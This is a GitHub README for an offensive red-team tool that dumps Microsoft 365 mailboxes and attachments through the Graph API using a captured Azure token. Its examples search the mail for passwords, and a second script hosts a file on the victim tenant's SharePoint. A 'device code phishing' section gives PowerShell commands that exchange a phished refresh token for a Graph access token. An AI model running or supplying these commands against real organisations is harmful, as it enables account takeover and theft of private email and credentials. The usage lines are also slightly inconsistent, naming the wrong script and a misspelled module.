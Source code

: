 # MsGraphFunzy
Script to dump emails through Microsoft Graph API. it also include another script to push a file on the Azure tenant.

# Usage graph_dump.py

This script dump emails and attachments

```
python3 graph_dump.py extended_azure_token_file_path (optional filter)
```
# Filter examples

```
'$search="body:password"'
'$search="attachment:password"'
'$search="attachment:password"'

python3 graph_dump.py extended_azure_token_file_path '$search="body:password"'
```

# Usage push_sharepoint.py 

This script can be used to host on file on an Azure tenant

```
python3 extract_email.py extended_azure_token_file_path file_to_upload_path remote_filename (optional -organization)
```

# Device code phishing extended scope

```
PS> install-module aadinternals
PS> import-module addinternals
PS> $t = Get-AADIntAccessTokenWithRefreshToken -clientid "d3590ed6-52b3-4102-aeff-aad2292ab01c" -resource "https://graph.microsoft.com" -tenantid "" -refreshtoken "" -savetocache 1 -includerefreshtoken 1
PS> Write-Output $t
```

# Credit
Mr.Un1k0d3r RingZer0 Team

